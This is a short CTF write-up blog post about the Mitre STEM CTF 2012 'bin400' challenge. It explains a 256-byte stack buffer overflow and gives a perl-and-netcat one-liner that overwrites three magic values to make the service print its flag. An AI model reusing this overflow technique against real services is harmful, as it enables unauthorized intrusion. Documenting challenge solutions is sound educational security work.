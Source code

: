 ```yaml
---
title: 'Mitre STEM CTF 2012 &#8211; bin400'
author: awreece
layout: post
permalink: /?p=914
categories:
  - CTF
  - Write-Ups
---
```

### Overview

[bin400][1] is a network service has a buffer overflow vulnerability &#8211; it prints the key if some magic numbers are changed and otherwise prints itself.

<!--more-->

### Writeup

After realizing that the question was terribly worded and the service was not available publicly, we finally connect to the service and are rewarded with a binary. Its quickly apparent we&#8217;re supposed to overflow a buffer and change some magic value.

<div id="attachment_917" style="width: 418px" class="wp-caption aligncenter">
  <a href="http://ppp.cylab.cmu.edu/wordpress/wp-content/uploads/2012/07/bin400.png"><img src="http://ppp.cylab.cmu.edu/wordpress/wp-content/uploads/2012/07/bin400.png" alt="" title="bin400" width="408" height="272" class="size-full wp-image-917" /></a>
  
  <p class="wp-caption-text">
    Simple buffer overflow &#8211; buffer is only 256 bytes long and right below v15-v17.
  </p>
</div>

<pre>% cat &lt;(perl -e 'print "A"x256, "\x13\x0f\x17\x7f", "\x54\x4e\x4f\x44", "\x42\x7d\x3d\x5e", "\n"') - | tsocks nc 10.0.0.171 3490
MCA-A4C52829
</pre>

<span style="display:none;">Writeup by Alex Reece, see me on <a href="https://plus.google.com/106589059588263736517?rel=author">Google</a>+.</span>

 [1]: http://ppp.cylab.cmu.edu/wordpress/wp-content/uploads/2012/07/bin400.tar.gz
